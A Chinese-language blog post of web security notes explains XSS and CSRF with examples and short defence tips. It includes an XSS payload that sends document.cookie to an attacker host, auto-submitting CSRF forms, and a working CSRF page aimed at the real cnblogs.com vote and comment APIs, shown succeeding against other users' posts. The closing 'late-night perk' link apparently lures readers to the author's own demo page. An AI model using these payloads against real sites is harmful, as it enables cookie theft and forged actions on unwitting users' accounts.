


# Web 学习笔记 - 网络安全

## 前言

作为前端开发者，了解一点 Web 安全方面的基本知识是有很必要的，未必就要深入理解。本文主要介绍常见的网络攻击类型，不作深入探讨。

## 正文

网络攻击的形式种类繁多，从简单的网站敏感文件扫描、弱口令暴力破解，到 SQL 注入，再到复杂的网络劫持等，种类万千。

本文只介绍以下两种攻击：

* XSS 攻击
* CSRF 攻击

如果你对其他更高大上的网络攻击有兴趣，可以点击这里：[Web 安全学习笔记 - 高级网络攻击](http://www.chenjianhang.com/demo/security/)。

## XSS 攻击

> XSS，跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为 XSS。恶意攻击者往Web页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

XSS 攻击实现的方式和 SQL 注入有点类似，是一种基于 DOM 结构的攻击。利用网站对用户输入、请求参数没有验证，在参数中构造恶意 JavaScript 脚本，嵌入页面运行，从而达到攻击的目的。

如果再细分，XSS 可分成以下三种：

1. DOM-based XSS（基于 DOM的 XSS 攻击）
2. Stored XSS（基于存储的 XSS 攻击）
3. Reflected XSS（基于反射的 XSS 攻击）

这三种方式大同小异，这里不做细分。

### 简单示例

举个例子：

某网站的某个页面（http://example.com/page）是这样实现的：

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>
文章内容：<%= request.getParameter("content") %>
</body>
</html>
```

我们在浏览器打开连接：`http://example.com/page?content=<script>alert('Hello world')</script>`，就可以看到一个 Hello world 的弹窗。

只要能在页面插入可运行的脚本，那么就可以做很多事。比如获取页面的某些信息，发送到自己的服务器。或者获取网站的 Cookie。

攻击者搭建了一个网站，写了个页面或接口：`http://me.com?param=xxx`。只要有人访问这个页面，服务端就能把 `param` 参数保存在数据库。

然后再构造另一个链接：`http://example.com/page?content=<script>window.open('me.com?param' + document.cookie)</script>`

只要有人打开这个链接，就能把浏览器在 example.com 上的 cookie 保存到攻击者的服务器。剩下的事就是诱导点击，等着鱼上钩了。

### XSS 防御

要做好 XSS 防御，主要是不要相信用户的输入，对所有的请求参数做检查。

使用富文本时，使用XSS规则引擎进行编码过滤。

当然，很多时候是不能过滤掉标签的，像博客园这样的网站，用户经常发代码，不能过滤掉，只能进行转码再显示：



## CSRF

### 什么是 CSRF

> CSRF（Cross-site request forgery跨站请求伪造，也被称为“one click attack” 或者 session riding，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。

简单地说，就是攻击者盗用了你的身份，以你的名义发送恶意请求。

### 简单示例

举个栗子。

某博客网站用户登录后，可以给其他用户点赞。点赞的 API 接口是 `http://example.com/like?user_id=xxx`，并且这是一个 GET 请求接口。

A 是一个虚荣的程序员，为了赞丧心病狂。他的用户 ID 是 1234。于是他构造了一个这样的 URL：`http://example.com/like?user_id=1234`。

很显然，只要其他用户在博客网站登陆了，并且用户的浏览器请求了这个 URL，那么 A 就能得到一个赞。

接着，他在博客网站写了一篇文章《程序员 30 天学会把妹技巧》，文章里插入这样的一张图片：

```

```

我们知道，浏览器对于图片请求是默认允许的。于是，当已登陆用户浏览他的文章时，A 就会获得一个赞。

以上示例可以看出，GET 请求的安全性是很低的。当然，这里使用 GET 请求不符合 HTTP 规范。

### 升级版示例

好景不长，某天，网站管理员忽然发现有一篇文章的赞数高得令人发指，文章质量却是惨不忍睹，很是可疑。看到底部，卧槽，自己竟然也点了推荐？于是赶忙叫程序员加班，把接口改成 POST 请求，修复了这个漏洞。

然并卵，这依然难不倒 A。于是他写了这段代码，放在他自己的站点上。

```
<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>
<form id="form" method="POST" action="http://example.com/like">
    <input type="hidden" name="user_id" value="1234">
</form>
<script>
    var form = document.getElementById('form')
    form.submit()
</script>
</body>
</html>
```

诱导点击是一个 CSRF 攻击的常用手段之一。于是他在文章写下：

```
深夜福利，有图有真相，请戳 http://laosiji.com。
```

没过多久，他的 ID 就被管理员封了。

## 真实示例

学以致用一直是我学习的常用方法之一。今天就拿博客园来做实验。

注意，以下示例仅供学习参考！

浏览器打开开发者工具，点击这篇文章下面的推荐按钮（请点击后再往下阅读），便可以看到博客园推荐 API 的地址是：

```
POST http://www.cnblogs.com/mvc/vote/VoteBlogPost.aspx
```

参数 | 说明
--- | ---
blogApp | 用户名（页面 URL 中可以看到）
postId | 文章 ID（页面 URL 中可以看到）
voteType | Digg（赞、顶、推荐的意思）
isAbandoned | false（不懂）

然后写个静态页面，放在你的服务器上：

```
<html>
<head>
    <meta charset="utf-8">
    <title>深夜福利，有图有真相</title>
</head>
<body>
<form id="form" method="POST" action="http://www.cnblogs.com/mvc/vote/VoteBlogPost.aspx">
    <input type="hidden" name="blogApp" value="smallchen">
    <input type="hidden" name="postId" value="7424994">
    <input type="hidden" name="voteType" value="Digg">
    <input type="hidden" name="isAbandoned" value="false">
</form>
<script>
    var form = document.getElementById('form')
    form.submit()
</script>
</body>
</html>
```

因为不能推荐自己，我把 `blogApp` 和 `postId` 改成其他人的文章来测试。然后登录博客园，在服务器环境下打开页面，显示：

```
{"Id":0,"IsSuccess":true,"Message":"推荐成功","Data":null}
```

如果未登录，则会提示：

```
{
  "Id": 0,
  "IsSuccess": false,
  "Message": "请先<a href='javascript:void(0);' onclick='login()'>登录</a>",
  "Data": null
}
```

刷新文章页面，嗯~，确实推荐成功了！



如果你不需要赞，想要好评，也是可以滴。你可以在这篇文章下面写个好评，看看开发者工具的调试信息。

可以看出接口是：

```
POST http://www.cnblogs.com/mvc/PostComment/Add.aspx
```

参数 | 说明
--- | ---
blogApp | 用户名
postId | 文章 ID
parentCommentId | 0
body | 评论内容

相关代码：（注：完成这篇文章后发现这段代码不起作用，因为表单提交的方式不同，好像涉及到 request payload 相关的知识，我也不懂。这段代码就不删了。）

```
<html>
<head>
    <meta charset="utf-8">
    <title>深夜福利，有图有真相</title>
</head>
<body>
<form id="form" method="POST" action="http://www.cnblogs.com/mvc/vote/VoteBlogPost.aspx">
    <input type="hidden" name="blogApp" value="smallchen">
    <input type="hidden" name="postId" value="7424994">
    <input type="hidden" name="parentCommentId" value="0">
    <input type="hidden" name="body" value="卧槽，我中招了！">
</form>
<script>
    var form = document.getElementById('form')
    form.submit()
</script>
</body>
</html>
```

当然，你也可以做点其他事情，比如：[根据法律法规，此处无法显示]。

#### CSRF 防御

* 通过 referer、token 或者 验证码 来检测用户提交。
* 尽量不要在页面的链接中暴露用户隐私信息。
* 对于用户修改删除等操作最好都使用post 操作 。
* 避免全站通用的cookie，严格设置cookie的域。

## 总结

写这篇文章，主要是为了~~骗赞~~科普 Web 安全相关的知识，让大家对 Web 安全有基本的了解。
如果你对 Web 安全感兴趣，可以点击[Web 安全学习笔记 - 高级网络攻击](http://www.chenjianhang.com/demo/security/)。

最后，献上福利：[深夜福利，有图有真相](http://www.chenjianhang.com/demo/security/)。


(图片来源网络，侵删)

